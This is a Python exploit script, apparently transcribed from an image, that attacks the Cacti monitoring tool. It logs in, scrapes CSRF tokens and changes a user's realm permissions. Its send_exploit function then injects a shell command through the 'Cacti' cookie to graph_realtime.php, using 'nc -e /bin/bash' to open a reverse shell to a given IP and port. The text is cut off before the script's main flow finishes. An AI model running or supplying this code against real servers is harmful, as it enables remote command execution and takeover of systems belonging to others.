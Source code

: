 ```python
if len(sys.argv) != 6:
    print("[~] Usage : ./Cacti-exploit.py url username password ip port")
    exit()
 
url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
ip = sys.argv[4]
port = sys.argv[5]
 
def login(token):
    login_info = {
    "login_username": username,
    "login_password": password,
    "action": "login",
    "__csrf_magic": token
    }
    login_request = request.post(url+"/index.php", login_info)
    login_text = login_request.text
    if "Invalid User Name/Password Please Retype" in login_text:
        return False
    else:
        return True
 
def enable_guest(token):
    request_info = {
    "id": "3",
    "section25": "on",
    "section7": "on",
    "tab": "realms",
    "save_component_realm_perms": 1,
    "action": "save",
    "__csrf_magic": token
    }
    enable_request = request.post(url+"/user_admin.php?header=false", request_info)
    if enable_request:
        return True
    else:
        return False
 
def send_exploit():
    payload = ";nc${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s" % (ip, port)
    cookies = {'Cacti': quote(payload)}
    requests.get(url+"/graph_realtime.php?action=init", cookies=cookies)
 
request = requests.session()
print("[+]Retrieving login CSRF token")
page = request.get(url+"/index.php")
html_content = page.text
soup = BeautifulSoup(html_content, "html5lib")
token = soup.findAll('input')[0].get("value")
if token:
    print("[+]Token Found : %s" % token)
    print("[+]Sending creds ..")
    login_status = login(token)
    if login_status:
        print("[+]Successfully LoggedIn")
        print("[+]Retrieving CSRF token ..")
        page = request.get(url+"/user_admin.php?action=user_edit&id=3&tab=realms")
        html_content = page.text
        soup = BeautifulSoup(html_content, "html5lib")
        token = soup.findAll('input')[1].get("value")
        if token:
```